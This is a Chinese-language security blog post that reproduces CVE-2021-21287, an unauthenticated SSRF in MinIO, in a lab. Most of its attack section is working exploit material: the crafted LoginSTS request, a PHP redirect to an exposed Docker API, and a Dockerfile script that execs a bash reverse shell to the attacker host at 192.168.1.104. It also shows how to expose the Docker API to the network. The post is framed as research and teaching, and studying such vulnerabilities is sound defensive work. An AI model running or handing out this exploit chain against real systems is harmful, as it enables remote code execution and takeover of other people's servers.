 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9OavrcdczSZDXler5IpiQQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcS1sDKyklf0czsJtbOGYGtUNHdgyo9ueIQoVbj86fd1pIF3TLQnZztyeibAiaS43iaLFe7EuGmRo0sA/640?wx_fmt=png)

MinIO 未授权 SSRF 漏洞 (CVE-2021-21287)

一、漏洞简介

由于 MinIO 组件中 LoginSTS 接口设计不当，导致存在服务器端请求伪造漏洞

攻击者可以通过构造 URL 来发起服务器端请求伪造攻击成功利用此漏洞的攻击者能够通过利用服务器上的功能来读取、更新内部资源或执行任意命令

该漏洞无需用户验证即可远程利用

二、影响版本

MinIO < RELEASE.2021-01-30T00-20-58Z

三、环境准备 & 漏洞复现

Docker 安装 minio：

docker-compose.yml

```
version: '3.7'
services:
  minio1:
    image: minio/minio:RELEASE.2021-01-16T02-19-44Z
    volumes:
      - data1-1:/data1
      - data1-2:/data2
    ports:
      - "9000:9000"
    environment:
      MINIO_ACCESS_KEY: minio
      MINIO_SECRET_KEY: minio123
    command: server http://minio{1...4}/data{1...2}
    healthcheck:
      test: ["CMD", "curl", "-f", "http://localhost:9000/minio/health/live"]
      interval: 30s
      timeout: 20s
      retries: 3


## By default this config uses default local driver,
## For custom volumes replace with volume driver configuration.
volumes:
  data1-1:
  data1-2:
```

启动环境：

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcS1sDKyklf0czsJtbOGYGtzdNRrkC7eUWAA7ETzjotZpYB09jBYCVCm9FOyK1m6ZYibJGyorn3SZQ/640?wx_fmt=png)

首页样式：

http://192.168.1.108:9000/minio/login

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcS1sDKyklf0czsJtbOGYGtoGrJZvkcavS9CDoSFgGH8T1UtZLicyejItlalcPoyyIgAwfr0Pt2Micw/640?wx_fmt=png)

1、验证 SSRF

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcS1sDKyklf0czsJtbOGYGtdhjgic8k2k1XdnAYs8VgJDy5PxO8LAic4Hm0hPohEpdYDz7EJpngTqQQ/640?wx_fmt=png)

具体数据包：  

```
POST /minio/webrpc HTTP/1.1
Host: 192.168.1.104:1234
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 79

{"id":1,"jsonrpc":"2.0","params":{"token":     "test"},"method":"web.LoginSTS"}
```

2、ssrf 反弹 shell

web 服务下面放文件：index.php（apache）

```
<?php
header('Location: http://192.168.1.108:2375/build?remote=http://192.168.1.104/Dockerfile&nocache=true&t=evil:1', false, 307);
```

反弹 shell 文件：

DockerFile 如下：

```
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.1.108:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.104/888 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

具体操作数据包：

```
POST /minio/webrpc HTTP/1.1
Host: 192.168.1.104
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 79

{"id":1,"jsonrpc":"2.0","params":{"token":     "test"},"method":"web.LoginSTS"}
```

为了好的展示录了一个小视频。

过程枯燥等待较长：加了一个 BGM

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcS1sDKyklf0czsJtbOGYGtwoBMk7O8ccR0rNaE8snTQusnOoaOicJWIdwzh07GX3olCNiafAuyttiaw/640?wx_fmt=png)

视频：  

操作视频的结果：  

注意⚠️：  

因为自己 Docker API 已开启，过程未写入其中。

开启 Docker API 参考：  

```
打开配置文件找到
ExecStart=/usr/bin/dockerd 

修改为
ExecStart=/usr/bin/dockerd  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
重启

$ systemctl daemon-reload
$ systemctl restart docker
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcS1sDKyklf0czsJtbOGYGtCAWpH0zzmfVyNAIYIj9hICmo57IuzNK6VBGZETuicdvVUdwWCiapmIJw/640?wx_fmt=png)

过程中还是很多坑需要去爬😂😂😂（多次尝试未果，最后成功，部分细节未记录丢失了）

时间匆忙有些粗糙望见谅🙏

SSRF-poc：  

```
POST /minio/webrpc HTTP/1.1
Host: 监听地址
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 79


{"id":1,"jsonrpc":"2.0","params":{"token":     "test"},"method":"web.LoginSTS"}
```

参考：  

https://mp.weixin.qq.com/s/X04IhY9Oau-kDOVbok8wEw

https://www.o2oxy.cn/3104.html

https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)